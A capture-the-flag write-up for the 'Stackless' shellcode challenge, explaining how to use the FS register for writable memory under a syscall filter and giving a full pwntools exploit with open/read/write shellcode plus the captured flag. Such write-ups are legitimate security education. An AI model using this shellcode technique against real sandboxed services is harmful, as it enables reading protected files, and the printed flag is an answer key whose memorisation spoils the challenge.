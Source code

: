 # Stackless

## Challenge

We are given source code and a binary for the challenge.

It loads a given shellcode into a random address in memory and clears all registers before jumping to it.

All standard mitigations are enabled, so both the exe and library addresses are randomized.

Also, we are restricted to the following syscalls:

- read
- write
- open
- close
- exit
- exit\_group

## Solution

The challenge is that we cannot read the flag onto the stack with our shellcode, as we do not know where the stack is.
The same is true for data sections, as we do not know the addresses of exe or libc.

However, we can access FS to get a writable address.

Using the pointer from FS, we can read the flag into a writable address, then print it using the write syscall.

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('stackless')

host = args.HOST or 'challenge.nahamcon.com'
port = int(args.PORT or 32721)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

shellcode = b""

shellcode += asm('lea rdi, [rip + 0x800 - 7]')
shellcode += asm('mov rsi, 0')
shellcode += asm('mov rax, SYS_open')
shellcode += asm('syscall')

shellcode += asm('mov rdi, rax')
shellcode += asm('mov rsi, fs:[0]')
shellcode += asm('mov rdx, 0x40')
shellcode += asm('mov rax, SYS_read')
shellcode += asm('syscall')

shellcode += asm('mov rdi, 1')
shellcode += asm('mov rax, SYS_write')
shellcode += asm('syscall')

payload = flat({
    0: shellcode,
    0x800: b"/home/challenge/flag.txt",
    })

io.sendlineafter(b"Shellcode length\n", str(len(payload)).encode())
io.sendlineafter(b"Shellcode\n", payload)

io.interactive()
```

## Flag

```
flag{2e5016f202506a14de5e8d2c7285adfa}
```
